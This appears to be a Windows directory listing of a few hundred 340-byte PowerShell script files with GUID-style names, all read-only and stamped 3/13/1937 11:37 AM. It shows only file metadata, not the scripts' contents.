-ar---        3/13/1937  11:37 AM            340 0f922ec4-a614-4da0-abf1-05a109e25e1e.ps1
-ar---        3/13/1937  11:37 AM            340 0fa6bc12-3c62-4acf-82b4-84dcbda5fc38.ps1
-ar---        3/13/1937  11:37 AM            340 0fa8eec4-b829-44ef-acbb-22d2143698dc.ps1
-ar---        3/13/1937  11:37 AM            340 0fcd5d11-793e-4d4e-81ff-a5f30dc3af19.ps1
-ar---        3/13/1937  11:37 AM            340 0fe7351a-fa19-4b86-9f30-b0bc6df828ee.ps1
-ar---        3/13/1937  11:37 AM            340 100c28d6-ee79-453e-828d-718d4546f0f7.ps1
-ar---        3/13/1937  11:37 AM            340 100e0e1a-5174-478b-ad17-176ab14ec0a2.ps1
-ar---        3/13/1937  11:37 AM            340 100ef81e-b0bf-46fd-8ca9-7619f86b5d43.ps1
-ar---        3/13/1937  11:37 AM            340 103f3362-0fd4-4e69-b5bb-df67c2d8e8f0.ps1
-ar---        3/13/1937  11:37 AM            340 1074989f-3661-44cb-85e1-264de086e5fc.ps1
-ar---        3/13/1937  11:37 AM            340 10b5fba3-aadc-4b88-a8f4-b4429400da81.ps1
-ar---        3/13/1937  11:37 AM            340 10bd83d9-4af9-4558-a77a-fa5c2c4a80e9.ps1
-ar---        3/13/1937  11:37 AM            340 10e143a7-8642-4bff-8ac9-215fb728a64c.ps1
-ar---        3/13/1937  11:37 AM            340 10e76e7c-e732-41fe-9b6b-f008b7625362.ps1
-ar---        3/13/1937  11:37 AM            340 10f84749-1427-489e-80e9-ebc8b64cd7bb.ps1
-ar---        3/13/1937  11:37 AM            340 10fa46b7-0846-44d5-9180-b68fa58a97bd.ps1
-ar---        3/13/1937  11:37 AM            340 10fcd4c6-8fb1-4bcd-99c3-b3cab39cf2f0.ps1
-ar---        3/13/1937  11:37 AM            340 1105a0ed-b895-4edb-9a85-4c57cdd569a5.ps1
-ar---        3/13/1937  11:37 AM            340 1151fd64-f83c-4cd9-beda-d7bb9585ae40.ps1
-ar---        3/13/1937  11:37 AM            340 115705d6-df62-45b3-84a3-c274fd8dcef7.ps1
-ar---        3/13/1937  11:37 AM            340 116c571b-f893-4700-bd97-7a1e8ad82ef6.ps1
-ar---        3/13/1937  11:37 AM            340 119acec4-41b5-4ab8-973a-c5f4946c5ffc.ps1
-ar---        3/13/1937  11:37 AM            340 11af9cd2-a417-45c3-9e42-8ee2ea965d20.ps1
-ar---        3/13/1937  11:37 AM            340 11bb8b36-b5c6-4c49-beca-4fb262d92ff9.ps1
-ar---        3/13/1937  11:37 AM            340 11bc9c23-0fdb-430e-9528-714119bd1b4e.ps1
-ar---        3/13/1937  11:37 AM            340 12059ee5-02ea-440c-85f6-f3a7cda75d05.ps1
-ar---        3/13/1937  11:37 AM            340 1206d189-a275-4b71-a13f-945baa4d2e06.ps1
-ar---        3/13/1937  11:37 AM            340 121e6c56-746b-4794-82b4-55453f3c4e7a.ps1
-ar---        3/13/1937  11:37 AM            340 1222fe3d-993b-437a-b6e7-b01759f2aca5.ps1
-ar---        3/13/1937  11:37 AM            340 12255221-4a96-44c4-b2db-5e9887d08c59.ps1
-ar---        3/13/1937  11:37 AM            340 127ce21d-e0e7-4d66-b35c-a35054e791a1.ps1
-ar---        3/13/1937  11:37 AM            340 127d9af3-a207-49d0-b7d6-5359a3d43df4.ps1
-ar---        3/13/1937  11:37 AM            340 1287dc19-588e-4b75-b108-3d6993a73dab.ps1
-ar---        3/13/1937  11:37 AM            340 12892ed8-91b1-44ea-baac-cedcf7ca5ad8.ps1
-ar---        3/13/1937  11:37 AM            340 128a86dd-333c-482a-870d-1ce97b2bfe46.ps1
-ar---        3/13/1937  11:37 AM            340 12bd1ce8-3dd3-4f8a-b7bb-25725fc639a3.ps1
-ar---        3/13/1937  11:37 AM            340 1305cb75-b663-47ef-9108-7f94f9f926ce.ps1
-ar---        3/13/1937  11:37 AM            340 130c6663-37ee-4448-a5eb-94a6097b199e.ps1
-ar---        3/13/1937  11:37 AM            340 13161cbf-52e1-4034-addb-dc0535078094.ps1
-ar---        3/13/1937  11:37 AM            340 132de622-2d19-44b0-9ef5-988ffeeddddf.ps1
-ar---        3/13/1937  11:37 AM            340 13349670-1b97-447e-9523-d11ebdc94bd2.ps1
-ar---        3/13/1937  11:37 AM            340 135110bf-9380-4995-97d3-594c0492359d.ps1
-ar---        3/13/1937  11:37 AM            340 135a1b60-1e1d-46ae-849c-dd1d0453527c.ps1
-ar---        3/13/1937  11:37 AM            340 137380ec-b6e1-4082-83b8-fab74463401e.ps1
-ar---        3/13/1937  11:37 AM            340 13871e85-a742-46ba-a8df-a9dfd04fe43b.ps1
-ar---        3/13/1937  11:37 AM            340 1394124d-af2c-4c49-b428-5f4ef5a7c168.ps1
-ar---        3/13/1937  11:37 AM            340 13fcf7fc-1e5f-4295-bf8c-a31e7bd382cf.ps1
-ar---        3/13/1937  11:37 AM            340 1406a78a-9a66-4f20-9e38-a14b195cbc7a.ps1
-ar---        3/13/1937  11:37 AM            340 1424263a-77a9-4f77-b5f0-4a42c126517b.ps1
-ar---        3/13/1937  11:37 AM            340 142a1e6f-5be0-41e0-8e26-315c4e988260.ps1
-ar---        3/13/1937  11:37 AM            340 142fe469-6990-4c16-841b-e83b5ae48f92.ps1
-ar---        3/13/1937  11:37 AM            340 1469f005-2888-40ab-8b3a-65980fc44f76.ps1
-ar---        3/13/1937  11:37 AM            340 14704dff-a205-420a-a9d3-18dc6aec5f3a.ps1
-ar---        3/13/1937  11:37 AM            340 149d97fe-3146-480f-9566-80c758dce7d3.ps1
-ar---        3/13/1937  11:37 AM            340 14a62386-e5bd-4cbe-b19e-8813ae01d6fd.ps1
-ar---        3/13/1937  11:37 AM            340 14ccfd08-b66f-4453-a3c0-952203031545.ps1
-ar---        3/13/1937  11:37 AM            340 1513c668-b858-48b8-b07c-e710a2a3017c.ps1
-ar---        3/13/1937  11:37 AM            340 151b0d1e-b9dd-4558-b20e-0e93ef3109ae.ps1
-ar---        3/13/1937  11:37 AM            340 15221325-3d29-4d6b-a1c5-58f864d4a06f.ps1
-ar---        3/13/1937  11:37 AM            340 153c58ef-ff7f-4f73-b238-996c8dc0fd99.ps1
-ar---        3/13/1937  11:37 AM            340 1594d4ae-1650-4cce-b922-23d2b253384f.ps1
-ar---        3/13/1937  11:37 AM            340 15a5efc0-a9b5-43a8-8c61-0be98366b051.ps1
-ar---        3/13/1937  11:37 AM            340 15d38d19-20f7-4fe3-b6f6-3aaf4523aa70.ps1
-ar---        3/13/1937  11:37 AM            340 15ddea05-e261-4484-a33c-aa2ef3f48f27.ps1
-ar---        3/13/1937  11:37 AM            340 15e05249-797d-4265-a56a-8bdab8a49805.ps1
-ar---        3/13/1937  11:37 AM            340 15e23445-f5e8-4bd6-9eb7-173b3c8858f2.ps1
-ar---        3/13/1937  11:37 AM            340 15f50490-ebff-4107-92c5-dc72c0b1130c.ps1
-ar---        3/13/1937  11:37 AM            340 160e4563-f85e-45ba-a731-ab23b7742120.ps1
-ar---        3/13/1937  11:37 AM            340 160f7929-18a9-415b-ba2f-066a94b77444.ps1
-ar---        3/13/1937  11:37 AM            340 1652886e-6e61-49e9-a37b-1125b183ef91.ps1
-ar---        3/13/1937  11:37 AM            340 165303bd-359f-434c-8b08-0c6ff78232e8.ps1
-ar---        3/13/1937  11:37 AM            340 1653de94-1853-4800-bfe8-5c33520d9ad9.ps1
-ar---        3/13/1937  11:37 AM            340 16583612-9130-4ad3-9bc2-bb66613e8bf6.ps1
-ar---        3/13/1937  11:37 AM            340 16788bf4-f366-4fdf-9f5b-066ade10c31c.ps1
-ar---        3/13/1937  11:37 AM            340 168d19ad-1606-4e58-97ed-1362290b7ba9.ps1
-ar---        3/13/1937  11:37 AM            340 16bf1ab5-993d-4659-a814-d402fa8d8cff.ps1
-ar---        3/13/1937  11:37 AM            340 1767c217-b277-4c7f-80d5-118ea6073392.ps1
-ar---        3/13/1937  11:37 AM            340 1791d272-0969-4519-9e0b-f989736c45b0.ps1
-ar---        3/13/1937  11:37 AM            340 1793827d-b06f-46ca-b903-025779f12d7b.ps1
-ar---        3/13/1937  11:37 AM            340 17c3a3ea-dd12-4fa1-97bd-d0afb0474d95.ps1
-ar---        3/13/1937  11:37 AM            340 17eaad14-3d6f-49c0-8993-9d2254f671eb.ps1
-ar---        3/13/1937  11:37 AM            340 17f8b0ad-f74d-401f-8cf1-0cf5c1204f5f.ps1
-ar---        3/13/1937  11:37 AM            340 17f90214-031b-4447-9953-a575200bc5d1.ps1
-ar---        3/13/1937  11:37 AM            340 180ee6e1-1272-4c7f-94e0-bf9068d5ebe4.ps1
-ar---        3/13/1937  11:37 AM            340 1813e3c9-b06c-498b-803d-341440214458.ps1
-ar---        3/13/1937  11:37 AM            340 1829d1c7-0eb4-49df-9baf-1bff29107a62.ps1
-ar---        3/13/1937  11:37 AM            340 1831c99d-286f-4f26-9c65-531981e9970c.ps1
-ar---        3/13/1937  11:37 AM            340 18361311-9c02-45aa-b54a-957ae22f4bbd.ps1
-ar---        3/13/1937  11:37 AM            340 185790ed-1656-4eca-abe1-392eef7a87d6.ps1
-ar---        3/13/1937  11:37 AM            340 186f37fa-8ae3-438a-abba-dcd3497a619f.ps1
-ar---        3/13/1937  11:37 AM            340 18828f5c-bcff-432e-9313-20ed98831550.ps1
-ar---        3/13/1937  11:37 AM            340 188855bb-0980-4f13-876e-eb7dc61bc241.ps1
-ar---        3/13/1937  11:37 AM            340 188ce98c-4f05-4ba7-a814-bf608037c005.ps1
-ar---        3/13/1937  11:37 AM            340 18bc4f7b-2ea6-429b-84c4-27c190ac3fcd.ps1
-ar---        3/13/1937  11:37 AM            340 18c99cbe-1d9f-45bb-b33c-920f9e87ead5.ps1
-ar---        3/13/1937  11:37 AM            340 191ea424-0857-4953-8f62-ffe0a0be3403.ps1
-ar---        3/13/1937  11:37 AM            340 196f7fc8-a740-4476-965b-b6b0393943bf.ps1
-ar---        3/13/1937  11:37 AM            340 19776b02-c87e-49c7-b142-59b8189ae4bc.ps1
-ar---        3/13/1937  11:37 AM            340 19b1a038-2be0-434a-8e72-e432b457d675.ps1
-ar---        3/13/1937  11:37 AM            340 19c4c9ea-8e32-46ba-8fcd-832d9a2a0ad3.ps1
-ar---        3/13/1937  11:37 AM            340 19e7ff8d-dd7d-4374-b367-d767a28e281e.ps1
-ar---        3/13/1937  11:37 AM            340 1a2447d5-1097-46e1-baa2-54b705658f93.ps1
-ar---        3/13/1937  11:37 AM            340 1a481229-d092-4a46-9837-5a13ac3bd225.ps1
-ar---        3/13/1937  11:37 AM            340 1a6613b2-0eb8-4b2f-9836-896738b06759.ps1
-ar---        3/13/1937  11:37 AM            340 1a71e15c-3939-495f-a0a4-c2a1f621f9a6.ps1
-ar---        3/13/1937  11:37 AM            340 1a805ca7-192a-4a91-b31c-0284342b17a1.ps1
-ar---        3/13/1937  11:37 AM            340 1aaaf8d5-eaec-4d2e-87c0-e88168d2c9bc.ps1
-ar---        3/13/1937  11:37 AM            340 1ab1895e-e461-4fd3-958b-c8252a4b8a4e.ps1
-ar---        3/13/1937  11:37 AM            340 1ae8dce8-1840-4888-b700-c31198f7a3f9.ps1
-ar---        3/13/1937  11:37 AM            340 1b1b186c-035a-46a0-86f4-3923b89db530.ps1
-ar---        3/13/1937  11:37 AM            340 1b2b1d91-ff51-4fec-aac8-93efea7f3ef6.ps1
-ar---        3/13/1937  11:37 AM            340 1b3f4cef-1441-4a11-8b76-8fe85c1ed9a5.ps1
-ar---        3/13/1937  11:37 AM            340 1b575275-ad71-4be5-9899-650f84f3bd33.ps1
-ar---        3/13/1937  11:37 AM            340 1b764276-ce8f-47bb-80f1-9c07999f2902.ps1
-ar---        3/13/1937  11:37 AM            340 1bbb876c-248f-4e14-9291-6d9bbdb84ba0.ps1
-ar---        3/13/1937  11:37 AM            340 1bc1a263-76ab-43e3-93b9-5844ba120502.ps1
-ar---        3/13/1937  11:37 AM            340 1be94b41-d19e-4bc1-aa0c-fb8c88e22027.ps1
-ar---        3/13/1937  11:37 AM            340 1c000701-c497-45f8-9ebd-86c69d77bfdd.ps1
-ar---        3/13/1937  11:37 AM            340 1c0492df-267f-4869-bd24-83f36c01d70b.ps1
-ar---        3/13/1937  11:37 AM            340 1c34cd09-a599-4573-89cd-0303324fbb1d.ps1
-ar---        3/13/1937  11:37 AM            340 1c54290f-7d96-4dbb-817b-9c4de1f7928c.ps1
-ar---        3/13/1937  11:37 AM            340 1c55ad13-568c-45d4-a76a-17c384dddefc.ps1
-ar---        3/13/1937  11:37 AM            340 1c6d8c90-eefa-40e2-af41-57ec04432b6f.ps1
-ar---        3/13/1937  11:37 AM            340 1c6e5a51-9b65-451f-9560-90a6a15d5370.ps1
-ar---        3/13/1937  11:37 AM            340 1ca2fcdf-9e8d-4e90-979e-c8f4240323fb.ps1
-ar---        3/13/1937  11:37 AM            340 1cbf6f25-98fb-493a-ad8d-b9d881a007da.ps1
-ar---        3/13/1937  11:37 AM            340 1cc22f62-5c6c-40ea-b29c-55e8709b10ab.ps1
-ar---        3/13/1937  11:37 AM            340 1cf83da9-b9a2-4acf-b9c1-a7d64985217a.ps1
-ar---        3/13/1937  11:37 AM            340 1cfeb016-9846-43a5-85b5-c9884e23b3c8.ps1
-ar---        3/13/1937  11:37 AM            340 1d653a31-9c6c-45f0-beab-ae4f9c27da65.ps1
-ar---        3/13/1937  11:37 AM            340 1d76f550-c82a-46d6-a5fe-ee73f74c9b39.ps1
-ar---        3/13/1937  11:37 AM            340 1d7b1419-3042-400a-87c3-1ab0cc92d935.ps1
-ar---        3/13/1937  11:37 AM            340 1dbb67c0-3b0b-4c88-8864-be5ed813c1ce.ps1
-ar---        3/13/1937  11:37 AM            340 1dc3264e-8daf-4a9a-8ddc-2fc2d015bdb5.ps1
-ar---        3/13/1937  11:37 AM            340 1dd6f908-253b-4462-b69c-22c880a50d8b.ps1
-ar---        3/13/1937  11:37 AM            340 1e12b249-a933-45c0-a0dd-1e693769f2e7.ps1
-ar---        3/13/1937  11:37 AM            340 1e1a1fd2-4fd8-425b-b3a2-95525bbec80b.ps1
-ar---        3/13/1937  11:37 AM            340 1e3e2e23-bf61-4d52-b3ab-e0b5b7242f82.ps1
-ar---        3/13/1937  11:37 AM            340 1e76d307-9704-4d39-ad84-18c8d723760e.ps1
-ar---        3/13/1937  11:37 AM            340 1e7bba30-4c3a-4565-8b68-1e51249a88ca.ps1
-ar---        3/13/1937  11:37 AM            340 1e7c34a0-5f51-415d-9c74-47024a831e23.ps1
-ar---        3/13/1937  11:37 AM            340 1e80dcb6-5463-454b-9e2f-65b0c199b744.ps1
-ar---        3/13/1937  11:37 AM            340 1e900220-a067-40b7-9399-6c516a3c101a.ps1
-ar---        3/13/1937  11:37 AM            340 1ea31ed1-9bdd-4b42-a464-69c6381dade9.ps1
-ar---        3/13/1937  11:37 AM            340 1edbab18-453e-49ab-a852-66df45f83f08.ps1
-ar---        3/13/1937  11:37 AM            340 1edd3482-5073-402b-98a5-1174dece4585.ps1
-ar---        3/13/1937  11:37 AM            340 1ee9b14d-37f2-4753-adb3-9cd28ea9cc86.ps1
-ar---        3/13/1937  11:37 AM            340 1eec4818-5123-438b-b112-6b563e746c5d.ps1
-ar---        3/13/1937  11:37 AM            340 1eed70d3-a380-4e51-826c-7d566031e267.ps1
-ar---        3/13/1937  11:37 AM            340 1f0e01eb-f444-4ef8-a62c-313a04f2c954.ps1
-ar---        3/13/1937  11:37 AM            340 1f3bb77d-1f8c-4070-aef1-ca130bcdf4d6.ps1
-ar---        3/13/1937  11:37 AM            340 1f5663b1-050d-4959-9bcd-3d25df34bc26.ps1
-ar---        3/13/1937  11:37 AM            340 1f57508a-b02b-4f3d-abd3-1cd082613590.ps1
-ar---        3/13/1937  11:37 AM            340 1f6ea18d-c72b-4f97-947b-c1f747ef808f.ps1
-ar---        3/13/1937  11:37 AM            340 1f7bac80-6019-4801-a16e-4153d26dc435.ps1
-ar---        3/13/1937  11:37 AM            340 1fabddcf-9554-4574-974a-6e4865ba74e6.ps1
-ar---        3/13/1937  11:37 AM            340 1fb9f3f7-4c26-4733-810b-d0455db92e77.ps1
-ar---        3/13/1937  11:37 AM            340 1fc8a279-9d71-40c2-bbaf-00d34013e062.ps1
-ar---        3/13/1937  11:37 AM            340 1fcafcc8-4251-4461-881a-4a9a568d9de0.ps1
-ar---        3/13/1937  11:37 AM            340 1fcb9f0e-a3f3-4a29-85c7-ed500b13b666.ps1
-ar---        3/13/1937  11:37 AM            340 1fe13130-6f6b-46bc-8c53-d502083ab036.ps1
-ar---        3/13/1937  11:37 AM            340 1fe39154-7e2e-4fed-b9a2-17905f962727.ps1
-ar---        3/13/1937  11:37 AM            340 1fe69a2a-0019-4579-9372-9b1f765e5439.ps1
-ar---        3/13/1937  11:37 AM            340 203de3cc-1aed-4f73-93d5-22ea24f05153.ps1
-ar---        3/13/1937  11:37 AM            340 205b0e0a-ed4b-497e-9d86-d5b88725c07a.ps1
-ar---        3/13/1937  11:37 AM            340 20947a67-6259-4ce3-a913-b40d666588f5.ps1
-ar---        3/13/1937  11:37 AM            340 20e1bfe8-0d76-42ef-8ea4-3d79024a40c4.ps1
-ar---        3/13/1937  11:37 AM            340 20eb8eb9-767e-4c17-bf5f-f9d4b3347446.ps1
-ar---        3/13/1937  11:37 AM            340 210434b3-2a75-4c20-a518-60f53be1fbbe.ps1
-ar---        3/13/1937  11:37 AM            340 2162c623-3f34-4c02-8a8f-1b9b63a6bd86.ps1
-ar---        3/13/1937  11:37 AM            340 216ab907-525f-4cc6-8d37-f156503b301a.ps1
-ar---        3/13/1937  11:37 AM            340 217c131a-21f7-44b1-a7f1-050aff152b4d.ps1
-ar---        3/13/1937  11:37 AM            340 2195f6b8-7f0f-4246-8caa-bdc3f3fa4bd3.ps1
-ar---        3/13/1937  11:37 AM            340 21a4ea2f-37d3-4da2-b288-c538d2ef65ae.ps1
-ar---        3/13/1937  11:37 AM            340 21aa04af-4a16-49bb-a87f-f73e1066dcd8.ps1
-ar---        3/13/1937  11:37 AM            340 21cc4517-8f07-4998-8ff3-84700470dba9.ps1
-ar---        3/13/1937  11:37 AM            340 21cc9881-f1a5-477a-a146-3b9f42c216f6.ps1
-ar---        3/13/1937  11:37 AM            340 21d26f63-4d52-4b6b-84bf-652e6499650a.ps1
-ar---        3/13/1937  11:37 AM            340 21d78344-125e-4066-add1-3b894038aa45.ps1
-ar---        3/13/1937  11:37 AM            340 21f67638-f213-4b8d-949e-ce11c919b466.ps1
-ar---        3/13/1937  11:37 AM            340 222292bc-7e7d-4f0c-a37a-fbcc25b19290.ps1
-ar---        3/13/1937  11:37 AM            340 22399154-7a6d-4b52-aecc-88c47d819508.ps1
-ar---        3/13/1937  11:37 AM            340 2240a3df-9ed7-4c81-b0db-043df0a81dc9.ps1
-ar---        3/13/1937  11:37 AM            340 225dde43-39de-43c4-90f8-f93d3dfdc937.ps1
-ar---        3/13/1937  11:37 AM            340 22be8399-29ce-4a76-ab9a-8424a1b89cf7.ps1
-ar---        3/13/1937  11:37 AM            340 22c1b4c2-2c52-4300-9cc5-94224cd0997b.ps1
-ar---        3/13/1937  11:37 AM            340 22d47847-e7be-4bf2-a87c-41881f753bfc.ps1
-ar---        3/13/1937  11:37 AM            340 22f31f6d-2315-42ac-80e2-71b492caeefa.ps1
-ar---        3/13/1937  11:37 AM            340 2354eb6b-e649-449b-a241-b1a4e8ed487b.ps1
-ar---        3/13/1937  11:37 AM            340 23673b6f-821e-4d21-b9a1-3326970dd248.ps1
-ar---        3/13/1937  11:37 AM            340 2368bad0-c236-47e8-96de-edae39c5d2c6.ps1
-ar---        3/13/1937  11:37 AM            340 237214d3-b04d-4ba5-8d3f-3154ab5b1647.ps1
-ar---        3/13/1937  11:37 AM            340 237889b6-e20a-4c38-99d6-90429da48bf6.ps1
-ar---        3/13/1937  11:37 AM            340 237cdb79-8013-40aa-92be-af6193b84bc8.ps1
-ar---        3/13/1937  11:37 AM            340 238f1d1b-c89d-412c-9c27-cd3bfac57fa5.ps1
-ar---        3/13/1937  11:37 AM            340 2399aef1-a9a6-4211-b05f-80ee317c54dd.ps1
-ar---        3/13/1937  11:37 AM            340 2399eeb7-49b3-4ae7-82bc-b7e9bed30d07.ps1
-ar---        3/13/1937  11:37 AM            340 23b2dcfb-9294-41d0-8811-92617ca870cd.ps1
-ar---        3/13/1937  11:37 AM            340 23e0d447-8a0e-45cc-a7c0-edc1de6516b2.ps1
-ar---        3/13/1937  11:37 AM            340 240194d1-50c4-498f-8a52-69f6431b2e2d.ps1
-ar---        3/13/1937  11:37 AM            340 24093eeb-17dc-4f4a-aedd-93c8c88d4ff0.ps1
-ar---        3/13/1937  11:37 AM            340 240e6635-6340-46b2-baad-1182507ca30a.ps1
-ar---        3/13/1937  11:37 AM            340 2421e5dd-6d0d-4413-8cca-5a6bae592001.ps1
-ar---        3/13/1937  11:37 AM            340 242517ff-6e64-4720-a88e-d1a0f6036726.ps1
-ar---        3/13/1937  11:37 AM            340 243f4ea7-385f-434c-b3ff-5cc5ee67fd47.ps1
-ar---        3/13/1937  11:37 AM            340 245e4b86-45b3-4ec6-9bf2-4bc3dd3bb7bb.ps1
-ar---        3/13/1937  11:37 AM            340 245fa2ad-04b4-463a-b19a-a8c64b9b17fe.ps1
-ar---        3/13/1937  11:37 AM            340 24866c8d-da50-4795-b1cd-dda68b52b936.ps1
-ar---        3/13/1937  11:37 AM            340 24abb685-08d9-4027-ac58-c3ef6a7c3fea.ps1
-ar---        3/13/1937  11:37 AM            340 24b9e009-37b7-4218-9ace-a290c2ca5719.ps1
-ar---        3/13/1937  11:37 AM            340 24c1d731-da83-401e-9fbe-eb1d710c77a6.ps1
-ar---        3/13/1937  11:37 AM            340 24c77ac1-13bb-47d3-9308-7faaf823953d.ps1
-ar---        3/13/1937  11:37 AM            340 24e179ce-5880-45ba-bb40-ced1f651bf13.ps1
-ar---        3/13/1937  11:37 AM            340 25008e2a-f23c-4c1a-bed0-f27c1810393e.ps1
-ar---        3/13/1937  11:37 AM            340 2524f2c7-f33f-4028-bf12-365f997e95a7.ps1
-ar---        3/13/1937  11:37 AM            340 256bcd7f-aa42-4059-a233-01ddadb89aa8.ps1
-ar---        3/13/1937  11:37 AM            340 256d33d8-ae42-412c-8b8e-73887947ff61.ps1
-ar---        3/13/1937  11:37 AM            340 259ebd67-7e63-4f7e-90c1-d26f520a5650.ps1
-ar---        3/13/1937  11:37 AM            340 25bf8e86-4e59-4d75-b5c6-c09f2427df29.ps1
-ar---        3/13/1937  11:37 AM            340 25ce4bb4-3336-4a95-9c55-e163af4e88ee.ps1
-ar---        3/13/1937  11:37 AM            340 25ef7a4a-0205-402c-a8ba-81c3d691d182.ps1
-ar---        3/13/1937  11:37 AM            340 25f4f49a-2feb-4e33-9d6a-163ac3167025.ps1
-ar---        3/13/1937  11:37 AM            340 262012cd-9293-4524-9ada-b154394f51eb.ps1
-ar---        3/13/1937  11:37 AM            340 2623500e-f000-4568-a91b-e529fe126067.ps1
-ar---        3/13/1937  11:37 AM            340 26310fb0-b3da-4d97-bce9-4523463ed5b4.ps1
-ar---        3/13/1937  11:37 AM            340 268de9cc-c3a0-43cb-ab78-5b6931d1b3a2.ps1
-ar---        3/13/1937  11:37 AM            340 26956acb-c3cc-44d8-8f5a-0f21bfe3aa9a.ps1
-ar---        3/13/1937  11:37 AM            340 26aaf290-7782-48b6-aaf1-0a57933316b7.ps1
-ar---        3/13/1937  11:37 AM            340 26c84d1a-66c3-4f27-92e5-830ee54a0eda.ps1
-ar---        3/13/1937  11:37 AM            340 26eaa960-98b5-4d1f-8819-71d2dff7f0e4.ps1
-ar---        3/13/1937  11:37 AM            340 274653bf-7b7a-4c69-a9f0-55e6e3adb014.ps1
-ar---        3/13/1937  11:37 AM            340 27504e2e-1372-4658-9ada-c4f03e230e64.ps1
-ar---        3/13/1937  11:37 AM            340 277aa161-b848-4fe7-8f10-f6d59aff17d9.ps1
-ar---        3/13/1937  11:37 AM            340 2787d7f7-8942-43c7-a162-542cff01bbf5.ps1
-ar---        3/13/1937  11:37 AM            340 27c38287-d64c-47ee-9e44-55f122ac15ea.ps1
-ar---        3/13/1937  11:37 AM            340 27e352e2-e4df-48e6-a0f1-4f40fcfe2523.ps1
-ar---        3/13/1937  11:37 AM            340 27ec6102-b8bc-4ee8-9b27-37c59c2285da.ps1
-ar---        3/13/1937  11:37 AM            340 27ecdfb3-c6b2-4717-9338-458a1d981a00.ps1
-ar---        3/13/1937  11:37 AM            340 284ebd1a-fa0c-48e4-ab7b-237a1b19b092.ps1
-ar---        3/13/1937  11:37 AM            340 2852de03-03ec-4696-ac56-654243f563e9.ps1
-ar---        3/13/1937  11:37 AM            340 288580e6-c66d-4d73-8810-01f6fbb45f45.ps1
-ar---        3/13/1937  11:37 AM            340 288b69a2-0a1c-42cc-a76a-9075a19fd65f.ps1
-ar---        3/13/1937  11:37 AM            340 28b64976-22df-4401-b5e8-3f83b184603a.ps1
-ar---        3/13/1937  11:37 AM            340 28c78171-7fa6-42fb-812b-e1396d79d891.ps1
-ar---        3/13/1937  11:37 AM            340 28f03a94-a065-4945-9f1a-550a008528b3.ps1
-ar---        3/13/1937  11:37 AM            340 291bb316-8b0f-418f-8965-076e1e95242c.ps1
-ar---        3/13/1937  11:37 AM            340 29210602-95d5-417d-8585-18c932ad3e6c.ps1
-ar---        3/13/1937  11:37 AM            340 2921731e-5818-4aed-a552-2f8a859c2379.ps1
-ar---        3/13/1937  11:37 AM            340 294306e2-130d-4dda-9f4d-6fec8099292c.ps1
-ar---        3/13/1937  11:37 AM            340 29498ac8-c041-4bc2-9e7f-eaeb15350b90.ps1
-ar---        3/13/1937  11:37 AM            340 297e4e8b-9650-47b2-9dc3-2a8aadc6153f.ps1
-ar---        3/13/1937  11:37 AM            340 298184f0-0bfd-42ce-8dfc-88e5508c8e13.ps1
-ar---        3/13/1937  11:37 AM            340 29a7e6f0-ccf8-4605-a66d-f87d6496d608.ps1
-ar---        3/13/1937  11:37 AM            340 29baed6f-dda6-4f84-af3b-cd0c85b0ec16.ps1
-ar---        3/13/1937  11:37 AM            340 29c627e5-cac4-48fc-8524-9346f0a5b03d.ps1
-ar---        3/13/1937  11:37 AM            340 29d1d7e0-93ab-48bd-8682-e89856d5e135.ps1
-ar---        3/13/1937  11:37 AM            340 29e86f45-aeb6-4851-89d3-ef87a8a82b79.ps1
-ar---        3/13/1937  11:37 AM            340 29ef21ff-a9d1-4d43-b5e7-c220ff9a3940.ps1
-ar---        3/13/1937  11:37 AM            340 29fcdce8-096e-4113-b5ab-9a0bc015134c.ps1
-ar---        3/13/1937  11:37 AM            340 2a0a256e-e79d-4f1c-b406-0cc91bbd80f2.ps1
-ar---        3/13/1937  11:37 AM            340 2a527be7-4b2e-4a2b-b864-6168cf10f58e.ps1
-ar---        3/13/1937  11:37 AM            340 2ac9180e-6fe4-4c1a-ad7d-e57a4580bbb8.ps1
-ar---        3/13/1937  11:37 AM            340 2b1aea1e-0ae2-4fe0-b263-aba76548962b.ps1
-ar---        3/13/1937  11:37 AM            340 2b211f90-521a-4b08-8b6f-27d4010b6b98.ps1
-ar---        3/13/1937  11:37 AM            340 2b5c3112-8483-4b07-9362-9e34a779a410.ps1
-ar---        3/13/1937  11:37 AM            340 2b7f9e0a-9c09-48b8-ac5c-dc5eeea5fbad.ps1
-ar---        3/13/1937  11:37 AM            340 2b9f10b1-160c-4c0d-9fd3-9696b8e39394.ps1
-ar---        3/13/1937  11:37 AM            340 2bb2d34b-a15f-44d3-82ac-f6dd965a5dce.ps1
-ar---        3/13/1937  11:37 AM            340 2bbd9104-d84e-4988-b174-a679d5046b43.ps1
-ar---        3/13/1937  11:37 AM            340 2c5f8de4-78d3-433a-a6d4-e843cc5e22a8.ps1
-ar---        3/13/1937  11:37 AM            340 2c79da9f-befb-4ce9-a7fe-a1d1ed9b1b4b.ps1
-ar---        3/13/1937  11:37 AM            340 2cc15675-f5e1-416e-b373-68ce5c8b218a.ps1
-ar---        3/13/1937  11:37 AM            340 2ccc7de1-5191-4789-8d60-ea092bf6cdfd.ps1
-ar---        3/13/1937  11:37 AM            340 2d04e752-61b7-4a77-ae8e-1d0e64b6df0d.ps1
-ar---        3/13/1937  11:37 AM            340 2d0cd201-d2dd-499f-a098-3ec83a6dcd65.ps1
-ar---        3/13/1937  11:37 AM            340 2d24c699-f049-4793-9729-5ffb6737f1d1.ps1
-ar---        3/13/1937  11:37 AM            340 2d733fd3-db0d-4369-9980-e697102ab0d0.ps1
-ar---        3/13/1937  11:37 AM            340 2d8e57be-1d42-434c-ada9-a38af5d24004.ps1
-ar---        3/13/1937  11:37 AM            340 2dd2ae9b-04a3-4c99-84f5-fbb424e7113e.ps1
-ar---        3/13/1937  11:37 AM            340 2e00b84e-cdaa-4d9a-a873-d9ecba4981c6.ps1
-ar---        3/13/1937  11:37 AM            340 2e16907d-16bc-4853-8ebd-a3d12f5229cd.ps1
-ar---        3/13/1937  11:37 AM            340 2e3bd996-9f12-4fd4-b6af-249bf2cec392.ps1
-ar---        3/13/1937  11:37 AM            340 2e86fa91-2260-419c-b509-e79c273f8bc9.ps1
-ar---        3/13/1937  11:37 AM            340 2e9e525a-b676-4bb2-8a13-d4127841654b.ps1
-ar---        3/13/1937  11:37 AM            340 2f00db58-99a0-46df-84a7-5994f183dee8.ps1
-ar---        3/13/1937  11:37 AM            340 2f06d083-a32f-4d34-bf43-31c8eec06e1d.ps1
-ar---        3/13/1937  11:37 AM            340 2f69b2d5-7ddd-4ad4-bd6d-1cab8ea1de73.ps1
-ar---        3/13/1937  11:37 AM            340 2f74d2fa-f84e-48db-82a4-7ca9186f5dc5.ps1
